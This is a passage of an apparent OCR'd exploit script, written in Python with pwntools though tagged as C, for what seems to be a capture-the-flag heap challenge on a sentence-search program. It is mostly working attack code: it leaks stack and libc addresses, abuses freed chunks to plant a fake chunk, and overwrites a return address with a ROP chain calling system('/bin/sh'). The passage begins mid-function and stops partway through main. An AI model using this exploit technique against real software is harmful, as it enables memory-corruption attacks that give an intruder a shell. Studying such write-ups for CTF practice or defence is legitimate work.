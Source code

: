 ``` c

    # leak the libc address
    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak

def index_sentence(s):
    p.sendline('2')
    p.sendline(str(len(s)))
    p.sendline(s)

def search(s):
    p.sendline('1')
    p.sendline(str(len(s)))
    p.sendline(s)

def make_cycle():
    index_sentence('a'*54 + ' d')
    index_sentence('b'*54 + ' d')
    index_sentence('c'*54 + ' d')

    search('d')
    p.sendline('y')
    p.sendline('y')
    p.sendline('y')
    search('\x00')
    p.sendline('y')
    p.sendline('n')

def make_fake_chunk(addr):
    # set the fwd pointer of the chunk to the address we want
    fake_chunk = p64(addr)
    index_sentence(fake_chunk.ljust(56))

def allocate_fake_chunk(binsh_addr, system_addr):
    # allocate twice to get our fake chunk
    index_sentence('A'*56)
    index_sentence('B'*56)

    # overwrite the return address
    buf = 'A'*30
    buf += p64(pop_rdi_ret)
    buf += p64(binsh_addr)
    buf += p64(system_addr)
    buf = buf.ljust(56, 'C')

    index_sentence(buf)

def main():
    stack_leak = leak_stack()

    # This makes stack_addr + 0x8 be 0x40
    stack_addr = stack_leak + 0x22 - 8

    log.info('stack leak: %s' % hex(stack_leak))
    log.info('stack addr: %s' % hex(stack_addr))

    libc_leak = leak_libc()
    libc_base = libc_leak - puts_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + binsh_offset
```